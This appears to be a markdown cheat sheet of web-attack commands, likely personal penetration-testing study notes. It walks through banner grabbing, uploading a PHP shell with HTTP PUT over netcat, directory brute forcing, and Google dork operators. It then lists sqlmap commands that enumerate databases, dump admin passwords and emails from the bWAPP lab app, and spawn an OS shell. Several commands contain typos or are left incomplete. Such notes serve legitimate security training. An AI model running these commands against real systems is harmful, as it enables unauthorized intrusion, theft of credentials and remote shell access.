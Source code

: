 # Web Attacks


### Banner grabbing
```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services
```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```


### Fingerpriting with Httprint
```
httprint -P0 -h <target> -s <signature file>
```


### HTTP Verbs
```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell
```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```


### Directory and File Enumeration

Enumeration of files and directories can lead to many hidden resources that could contain:

- New and untested features
- Backup files
- Testing information
- Developer's notes

```
# Dirb is a great tool to use for directory/file brute forcing
dirb http://<target>

# Gobuster is another directory/file scanner written in Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```

### Google Dorks
| Command               | Meaning                                                                                                     |
|-----------------------|-------------------------------------------------------------------------------------------------------------|
| site:                 | You can use this command to include only results on a given hostname.                                       |
| intitle:              | This command filters according to the title of a page.                                                      |
| inurl:                | Similar to intitle, but works on the URL of a resource.                                                     |
| filetype:             | This filters by using the file extension of a resource. For example .pdf or .xls.                           |
| AND, OR, &,           | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
| -                     | You can use this character to filter out a keyword or a command's result from the query.                    |

### SQL Injection with SQLMap

```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump

# sqlmap using cookie
sqlmap -u "URL" --cookie="PHPSESSID;SECURIRTY_LEVEL" -p 

Use the SQLMapto to get a list of databases present on the database server.
sqlmap -u "url" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs

Use the SQLMap to get a list of tables for database bWAPP.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables

Use the SQLMap to get the list of columns in the users table of the bWAPP database
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns

SQLMap to dump password and email for admin from the users table. Press 'n' twice when prompted.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump

SQL Injection (POST/Search)

Run SQLMap with this saved file. Again take "title" as the test parameter
sqlmap -r request -p title

os shell using sqlmap --os-shell option.
sqlmap -r request -p title --os-shell
```










